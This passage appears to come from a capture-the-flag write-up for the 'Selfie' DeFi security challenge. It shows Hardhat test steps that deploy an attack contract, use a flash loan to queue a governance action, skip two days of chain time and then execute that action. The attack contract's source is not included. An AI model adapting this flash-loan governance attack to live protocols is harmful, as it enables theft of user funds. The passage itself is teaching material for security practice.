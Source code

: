 In the tescase we first need to deploy our contract and call the first function so that our action gets queued.

```js
const Attack_Selfie = await ethers.getContractFactory('Attack_Selfie', player);
attack = await Attack_Selfie.deploy();

//Use Flashloan to be able to queue your proposal
await attack.connect(player).letsAGo(pool.address, governance.address);
```

Then we have to wait for 2 days to be able to execute our action

```js
await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]);
```

After the 2 days we can finally execute our action using the second fun of the attack contract.

```js
await attack.connect(player).letsAGoV2();
```

This leads to us being able to execute the testcase properly.
